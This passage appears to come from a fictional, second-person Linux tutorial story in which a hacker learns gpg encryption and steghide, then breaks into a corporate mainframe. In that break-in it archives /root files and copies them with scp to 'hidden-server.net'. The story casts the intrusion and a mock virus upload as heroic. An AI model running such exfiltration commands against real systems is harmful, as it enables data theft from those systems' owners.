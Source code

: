 ## Part 9: Encryption and Steganography

In a world where information is currency, encryption and steganography are essential skills.

```bash
$ gpg -c important_file.txt
Enter passphrase:
Repeat passphrase:
$ ls
important_file.txt  important_file.txt.gpg
```

The `gpg` command allows you to encrypt and decrypt files, protecting your sensitive data from prying eyes.

```bash
$ steghide embed -cf innocent_image.jpg -ef secret_message.txt
Enter passphrase:
Re-Enter passphrase:
embedding "secret_message.txt" in "innocent_image.jpg"... done
```

With steganography techniques and the `steghide` command, you can hide messages within seemingly innocent files, concealing your communication channels.

## Part 10: The Final Hack

As you approach the final chapter, you realize that the command line is more than just a tool; it's a way of life. With your newfound skills, you embark on the ultimate hack, infiltrating the core of the oppressive corporation that controls society.

```bash
$ ssh -i secret_key.pem hacker@corp-mainframe.com
Welcome to the Corporate Mainframe.

$ cd /root/secret_projects
$ tar -czf projects.tar.gz *
$ scp projects.tar.gz hacker@hidden-server.net:~/
```

You combine all the commands you've learned, chaining them together in a symphony of keystrokes. As you execute the final command, you hold your breath, waiting for the outcome that will determine the fate of the world.

```bash
$ ./deploy_resistance_ai.sh
Initializing Resistance AI...
Uploading virus to corporate systems...
Infiltrating security protocols...
Overriding control systems...

Corporate control terminated.
Freedom restored to the people.

Congratulations, hacker. You have successfully liberated society from the grasp of the oppressive corporations. The command line has been your loyal companion throughout this journey, empowering you to shape the world according to your vision.

As you step out into the now-free streets of the city, you feel a sense of pride and accomplishment. Your mastery of the Linux command line has not only saved you but has also sparked a revolution that will echo through the ages.

The command line may have been your weapon, but it was your spirit, your determination, and your unwavering commitment to justice that truly made you a hero. And so, with the world at your fingertips, you embark on a new journey, ready to face whatever challenges the future may bring.

$ echo "The future is ours to shape."
```